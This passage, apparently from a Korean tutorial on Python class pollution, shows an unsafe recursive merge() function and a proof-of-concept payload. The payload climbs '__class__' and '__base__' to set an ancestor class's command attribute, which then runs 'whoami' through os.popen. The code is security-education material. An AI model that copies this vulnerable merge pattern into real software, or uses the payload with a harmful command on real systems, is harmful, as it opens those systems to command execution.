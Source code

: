 ```python
a = Animal()
merge(animal_info, a)

print(vars(a))                  # {'species': ..., 'age': ..., ...}
print(a)                        # <__main__.Polluted object at ...>
print(a.__class__.__qualname__)# Polluted
print(Animal.__qualname__)     # Polluted
```

📌 `merge()`를 통해 `__class__.__qualname__` 값을 변경하여

출력 시 객체 타입명이 `"Polluted"`로 바뀌는 것을 확인할 수 있습니다.

---

## 명령 실행을 유도하는 오염 체인

```python
from os import popen

class Employee: pass
class HR(Employee): pass
class Recruiter(HR): pass

class SystemAdmin(Employee):
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 오염용 payload
USER_INPUT = {
    "__class__": {
        "__base__": {
            "__base__": {
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
# [!] Executing: "echo Hello there", output: "Hello there"

# 병합을 통해 조상 클래스 오염 시도
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
# [!] Executing: "whoami", output: "abdulrah33m"
```
